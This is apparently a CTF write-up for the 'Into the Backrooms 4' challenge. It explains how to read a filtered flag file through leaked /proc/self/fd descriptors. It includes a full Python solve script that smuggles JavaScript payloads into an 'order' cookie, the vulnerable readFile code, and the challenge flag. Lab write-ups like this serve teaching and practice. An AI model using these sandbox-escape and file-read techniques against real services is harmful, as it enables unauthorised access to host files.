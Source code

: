 #### Into the Backrooms 4 - Hard

*This challenge has four different parts. The source code is always the same. The parts build on each other and you should work on them in their order.

It seems like you were somehow able to execute the checkout function. Impressive. But seriously, you need to stop. There is now way that you are able to read the last flag. Don't even try.*

*Connection information: <br>
*hostname:8085*

<br>

[into_the_backrooms.zip](../../Public/into_the_backrooms.zip)

<br>

This is were things really get complicated. We are able to bypass the admin validation in the checkout function and we can execute certain functions defined in a sandbox. The last flag is on the file system of the host. The sandbox allows us to execute a `readFile` function with a path. It allows us the read files on the host if the user `app` has permissions to read the file. We are not allowed to use the term flag in the path. If we do so, the content of the file will not be returned to us. The file however will still be read. This means we need to read the `flag.txt` without using its name. There are two concepts we need to familiarize with first to be able to understand the solution: The `/proc` filesystem and `file descriptors`.

For each process there is a folder inside the `/proc` filesystem named after the PID, process id, of the process. It contains information about the running process. The link `self` points to the process reading the file system. In our case we don't need to find the PID as we can just use `self`. The process folders in `/proc` contain a subfolder named `fd`. It contains all the file descriptors that currently exist for the process. File descriptors are unique integer IDs and each of them points to a different open file in the kernel. A file descriptor is created when a file is opened and deleted when the file is explicitly closed. The file descriptors are links to the original file. This is our possibility to address the flag file under a different name. The only problem is that we won't know which file descriptor is associated with our flag file. So we will have to try all of them. Due to the behaviour of the `readFile` function we are able to open a file descriptor to the flag file even if the content is not returned to us. 

The final solution looks something like this:
1. Start a thread that reads the flag over and over again. This will create the file descriptors `/proc/self/fd`.
2. Start another thread that tries to read the files in `/proc/self/fd`.
3. Repeat 1. and 2. in a loop until the flag is returned. 

A python solve script will look like this:

```python
from time import sleep

import requests
import threading
import uuid

base_url = 'http://localhost:8000/'

register_url = base_url + 'register'

username = str(uuid.uuid4())
username = username.replace('-', '')

register_data = {
    'username': username,
    'password': '12345678'
}

r = requests.post(url=register_url, json=register_data)

if r.json()['error']:
    print("Registration failed!")
    exit()

login_url = base_url + 'login'

login_data = register_data

r = requests.post(url=login_url, json=login_data)

if r.json()['error']:
    print("Login failed!")
    exit()

cookies = r.cookies.get_dict()
passwd = cookies['passwd']
uid = cookies['uid']


def e_formatter(n):
    a = '{:.4E}'.format(float(n))
    e = a.find('E')
    return '0.{}{}{}{:02d}'.format(a[0], a[2:e], a[e:e + 2], abs(int(a[e + 1:]) * 1 + 1))


uid = e_formatter(uid)

checkout_url = base_url + 'checkout'


def create_fd():
    order = 'a = _=> { return readFile`/flag.txt` + a`` }, a``'

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)


def read_flag(flag):
    order = ''
    for i in range(30):
        order += 'readFile`/proc/self/fd/{}`,'.format(i)
    order = order[:-1]

    COOKIES = {
        'order': order,
        'passwd': passwd,
        'uid': uid
    }

    r = requests.get(url=checkout_url, cookies=COOKIES)

    try:
        if r.json()['error']:
            print("Trying again!")
    except (TypeError, requests.exceptions.JSONDecodeError) as e:
        if "nland" in r.text:
            r = r.text.split('\\n')[1]
            flag[0] = r


flags = ['failed']
flag = ['failed']

while "nland" not in flag:
    t1 = threading.Thread(target=create_fd)
    t2 = threading.Thread(target=read_flag, args=(flags,))
    t1.start()
    t2.start()
    t1.join()
    t2.join()
    flag = flags[0]
    sleep(1.0)

print(flag)
```

The start of the script registers a new user and logs into it and creates the uid cookie in scientific notation. The second part then sends the requests to retrieve the flag.
The `readFile` function reads the file specified by path through `fs.readFileSync(path)`. This function creates a file descriptors, reads the file and closes the file descriptors. If we call the `readFile` function multiple times during a run in the sandbox, the timeout will eventually run out. If this happens at the exact same time as the file descriptor is still open, it won't get closed.

```js
readFile: (path) => {
    path = new String(path).toString()
    if(fs.statSync(path).size == 0)
        return null
    let r = fs.readFileSync(path)
    if(!path.includes('flag'))
        return r
    return null
}
```

The `create_fd` function reads the flag file over and over again and creates the file descriptors as described above.

The `read_flag` function tries to read the flag from the file desciptors. We are not guaranteed a hit on the first try. This is because the `create_fd` function first needs to create the open file descriptors. After a while there are enough file descriptors so that we will be able to find an open one before the timeout and can read the flag. We will execute the two functions at the same time in separate threads in a loop. Eventually the script will print out the flag.

The flag is `nland{wh0_70ld_y0u_4b0u7_pr0c_4nd_f1l3_d35cr1p70r5?}`.
